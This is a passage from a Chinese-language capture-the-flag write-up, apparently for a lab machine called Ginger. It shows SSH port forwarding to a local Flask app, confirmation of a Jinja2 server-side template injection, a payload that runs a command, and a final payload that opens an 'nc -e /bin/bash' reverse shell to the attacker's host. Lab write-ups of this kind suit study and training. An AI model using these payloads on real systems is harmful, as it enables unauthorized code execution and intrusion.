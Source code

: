 尝试另启终端在本地测试，但是：

```bash
sabrina@ginger:~$ cd /tmp
sabrina@ginger:/tmp$ curl http://127.0.0.1:5000/
-bash: curl: command not found
```

使用`ssh`转接相关端口：

```bash
ssh -L 5000:127.0.0.1:5000 sabrina@$IP
```

看一下是否开放：

```bash
┌──(kali㉿kali)-[~/temp/Ginger]
└─$ curl -s http://127.0.0.1:5000
<h2>Hello world!</h2> 
```

继续进行测试：

```bash
┌──(kali㉿kali)-[~/temp/Ginger]
└─$ curl -s "http://127.0.0.1:5000/?name=aaaa"
<h2>Hello aaaa!</h2>                                                                                                                                                                                             
┌──(kali㉿kali)-[~/temp/Ginger]
└─$ curl -s "http://127.0.0.1:5000/?name=\{\{7*7\}\}"
<h2>Hello 49!</h2>
```

果然存在`SSTI`漏洞，尝试执行命令：

```
http://127.0.0.1:5000/?name={{ self.__init__.__globals__.__builtins__.__import__("os").popen("whoami").read() }}
```

![image-20250619111434501](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300888.png)

```bash
┌──(kali㉿kali)-[~/temp/Ginger]
└─$ curl -s -G 'http://127.0.0.1:5000/' --data-urlencode 'name={{ self.__init__.__globals__.__builtins__.__import__("os").popen("whoami").read() }}' | html2text
***** Hello webmaster ! *****
```

尝试反弹shell！！！

```bash
┌──(kali㉿kali)-[~/temp/Ginger]
└─$ curl -s -G 'http://127.0.0.1:5000/' --data-urlencode 'name={{ self.__init__.__globals__.__builtins__.__import__("os").popen("nc -e /bin/bash 192.168.10.107 2345").read() }}' | html2text
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506191300889.png" alt="image-20250619112014443" style="zoom:50%;" />
